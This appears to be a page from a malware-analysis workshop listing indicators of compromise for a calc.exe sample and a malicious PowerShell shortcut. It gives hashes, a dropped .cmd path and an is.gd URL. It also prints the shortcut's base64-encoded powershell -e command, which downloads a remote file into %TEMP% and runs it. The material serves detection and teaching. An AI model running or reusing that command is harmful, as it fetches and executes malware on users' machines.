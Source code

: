 ```yaml
---
title: "Indicators of Compromise"
description: "Overview of the Malware Analysis - An Introduction workshop."
sidebar:
  order: 6
---
```


# Indicators of Compromise

## What is Indicators of Compromise ( IOCs )?

An Indicator of Compromise (IOC) is evidence that suggests a network or endpoint has been breached. It is a sign that an attack, such as malware infection, credential theft, or data exfiltration, has already occurred.

Let's list the Indicators of Compromise for both of the samples that we have seen so far.

## IOCs for calc.exe

### Signatures related to the given malware file

| Key      | Value                                                            |
| -------- | ---------------------------------------------------------------- |
| Filename | `calc.exe`                                                       |
| MD5      | 2f9fdad776d8626f2ce8625211831e91                                 |
| SHA256   | 9b66a8ea0f1c64965b06e7a45afbe56f2d4e6d5ef65f32446defccbebe730813 |

## IOCs for Windows Powershell.lnk

### Signatures related to the given malware file

| Key      | Value                                                            |
| -------- | ---------------------------------------------------------------- |
| Filename | `Windows Powershell.lnk`                                         |
| MD5      | 02e1f1ea7dc301147433623d31e5a294                                 |
| SHA256   | de6d56ae01166232f2cb403c86d2ddf59d7654510100971fcd0fe59a3a8e9944 |

### Signatures related to the dropped file

| Key       | Value                                                            |
| --------- | ---------------------------------------------------------------- |
| Filename  | `.cmd`                                                           |
| File Path | `%TEMP%\.cmd`                                                      |
| MD5       | a07fcb39b340ad8dea993a5f5c4d9064                                 |
| SHA256    | EEB86BDD38DC4FA93046F3CC0E443018518B81828D34E5D1E75F3BD9AAB0F8A7 |

### HTTP Requests

- `http://is.gd/jwr7JD`

### Suspicious Strings

Remember the first powershell command that is executed with a base64 encoded string as the argument which contains the URL to the staged file, this base64 encoded string can be found in the properties of the `Windows Powershell.lnk` file as shown in the following image.

![alt text](assets/image-159.png)

The full target value that is marked in the above image is as follows: `C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -e aQB3AHIAIABpAHMALgBnAGQALwBqAHcAcgA3AEoARAAgAC0AbwAgACQAZQBuAHYAOgBUAE0AUAAvAC4AYwBtAGQAOwAmACAAJABlAG4AdgA6AFQATQBQAC8ALgBjAG0AZAA=`

This is why when we double click on the shortcut file, that powershell command is executed. This string can also be found by executing the strings command on this file as shown in the following image.

![alt text](assets/image-158.png)

This base64 encoded string is unique to this malware and can be used as an IOC.

- `aQB3AHIAIABpAHMALgBnAGQALwBqAHcAcgA3AEoARAAgAC0AbwAgACQAZQBuAHYAOgBUAE0AUAAvAC4AYwBtAGQAOwAmACAAJABlAG4AdgA6AFQATQBQAC8ALgBjAG0AZAA=`
